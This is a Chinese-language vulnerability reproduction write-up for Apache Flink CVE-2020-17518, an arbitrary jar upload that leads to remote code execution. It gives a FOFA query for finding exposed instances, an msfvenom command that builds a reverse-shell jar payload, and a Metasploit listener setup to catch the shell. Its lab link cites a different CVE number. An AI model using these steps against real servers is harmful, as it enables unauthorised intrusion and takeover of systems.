

# Apache Flink upload 远程命令执行漏洞 CVE-2020-17518

## 漏洞描述

近日,有安全研究员公开了一个Apache Flink的任意Jar包上传导致远程代码执行的漏洞，攻击者通过漏洞可以获取系统权限

## 漏洞影响

<a-checkbox checked>Apache Flink <= 1.9.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>
<a-button href="https://fofa.info/result?qbase64=YXBwPSJBcGFjaGUgRmxpbmsi">FOFA: app="Apache Flink"</a-button>
</a-checkbox>

## 环境搭建

<a-alert type="success" message="https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519" description="" showIcon>
</a-alert>

</br>



## 漏洞复现

点击查看文件上传页面


打开MSF 生成一个 jar 木马

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx  LPORT=4444 -f jar > test.jar
```

点击 Add 上传 jar 文件


```shell
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/shell/reverse_tcp
payload => java/shell/reverse_tcp
msf6 exploit(multi/handler) > set lhost xxx.xxx.xxx.xxx
lhost => xxx.xxx.xxx.xxx
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > run
```


点击下 submit


